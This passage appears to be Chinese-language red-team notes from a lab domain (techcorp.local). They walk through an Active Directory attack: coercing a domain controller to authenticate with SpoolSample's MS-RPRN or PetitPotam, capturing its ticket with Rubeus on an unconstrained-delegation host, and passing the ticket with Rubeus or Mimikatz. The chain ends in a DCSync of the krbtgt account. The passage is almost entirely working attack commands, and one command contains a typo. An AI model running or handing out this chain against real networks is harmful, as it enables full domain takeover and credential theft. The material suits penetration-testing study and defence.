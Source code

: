 Printer Bug的前提是目标机器运行了Spooler服务

两个工具可以执行Printer Bug攻击

### [MS-RPRN.exe](https://github.com/leechristensen/SpoolSample)

1. 在无约束委派机器（这里是us-web）上运行Rubeus监听
```
.\Rubeus.exe monitor /interval:5
```

2.  在无约束委派机器上强制DC向其认证
```
.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

### [PetitPotam.exe](https://github.com/topotam/PetitPotam)

1. 在无约束委派机器（这里是us-web）上运行Rubeus监听
```
.\Rubeus.exe monitor /interval:5
```

2.  在无约束委派机器上强制DC向其认证
```
.\PetitPotam.exe us-web us-dc
```

## 利用

1. 使用Rubeus ptt
```
Rubeus.exe ptt /tikcet:
```

2. 使用mimikatz ptt

制作票据
```
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi",
[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
```
ptt
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
```

3. DCSync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

# Constrained Delegation（约束委派）

 Allows access only to specified services on specified computers as a user.（只允许以用户身份访问指定计算机上的指定服务）
